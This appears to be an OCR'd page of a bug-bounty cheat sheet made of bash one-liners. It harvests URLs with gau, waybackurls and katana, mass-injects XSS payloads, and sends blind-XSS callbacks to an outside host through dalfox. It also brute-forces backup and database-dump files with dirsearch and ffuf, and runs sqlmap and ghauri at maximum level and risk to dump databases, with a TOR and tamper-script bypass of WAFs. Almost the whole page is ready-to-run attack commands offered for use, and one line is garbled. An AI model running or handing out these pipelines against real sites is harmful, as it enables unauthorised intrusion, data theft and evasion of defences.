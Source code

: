 ```bash
file=$1; key="API_KEY"; while read line; do curl https://api.knoxss.pro -d target=$line -H "X-API-KEY: $key" -s | grep PoC; done < $file
```
```bash
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep -Ev "\.(jpeg|jpg|png|ico|gif|css|woff|svg)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"
```
```bash
cat targets.txt | (gau || hakrawler || waybackurls || katana) | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```
```bash
echo target.com | (gau || hakrawler || waybackurls || katana) | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
```bash
cat urls.txt | grep "=" | sed 's/=.*/=/' | sed 's/URL: //' | tee testxss.txt ; dalfox file testxss.txt -b yours.xss.ht
```
```bash
cat subs.txt | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'
```
-----
**Hidden Dirs**
```bash
dirsearch -l ips_alive --full-url --recursive --exclude-sizes=0B --random-agent -e 7z,archive,ashx,asp,aspx,back,backup,backup-sql,backup.db,backup.sql,bak,bak.zip,bakup,bin,bkp,bson,bz2,core,csv,data,dataset,db,db-backup,db-dump,db.7z,db.bz2,db.gz,db.tar,db.tar.gz,db.zip,dbs.bz2,dll,dmp,dump,dump.7z,dump.db,dump.z,dump.zip,exported,gdb,gdb.dump,gz,gzip,ib,ibd,iso,jar,java,json,jsp,jspf,jspx,ldf,log,lz,lz4,lzh,mongo,neo4j,old,pg.dump,phtm,phtml,psql,rar,rb,rdb,rdb.bz2,rdb.gz,rdb.tar,rdb.tar.gz,rdb.zip,redis,save,sde,sdf,snap,sql,sql.7z,sql.bak,sql.bz2,sql.db,sql.dump,sql.gz,sql.lz,sql.rar,sql.tar.gz,sql.tar.z,sql.xz,sql.z,sql.zip,sqlite,sqlite.bz2,sqlite.gz,sqlite.tar,sqlite.tar.gz,sqlite.zip,sqlite3,sqlitedb,swp,tar,tar.bz2,tar.gz,tar.z,temp,tml,vbk,vhd,war,xhtml,xml,xz,z,zip,conf,config,bak,backup,swp,old,db,sql,asp,aspx~,asp~,py,py~,rb~,php,php~,bkp,cache,cgi,inc,js,json,jsp~,lock,wadl -o output.txt
```
```bash
ffuf -c -w urls.txt:URL -w wordlist.txt:FUZZ -u URL/FUZZ -mc all -fc 500,502 -ac -recursion -v -of json -o output.json
```
**ffuf json to txt output**
```bash
cat output.json | jq | grep -o '"url": "http[^"]*"' | grep -o 'http[^"]*' | anew out.txt
```
**earch for Sensitive files from Wayback**
```bash
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -color -E ".xls | \\. xml | \\.xlsx | \\.json | \\. pdf | \\.sql | \\. doc| \\.docx | \\. pptx| \\.txt| \\.zip| \\.tar.gz| \\.tgz| \\.bak| \\.7z| \\.rar"
```
---
**SQLi**
```bash
cat subs.txt | (gau || hakrawler || katana || waybckurls) | grep "=" | dedupe | anew tmp-sqli.txt && sqlmap -m tmp-sqli.txt --batch --random-agent --level 5 --risk 3 --dbs &&
for i in $(cat tmp-sqli.txt); do ghauri -u "$i" --level 3 --dbs --current-db --batch --confirm; done
```
**Bypass WAF using TOR**
```bash
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor --dbs --random-agent --tamper=space2comment
```
**find which host is vuln in output folder of sqlmap/ghauri**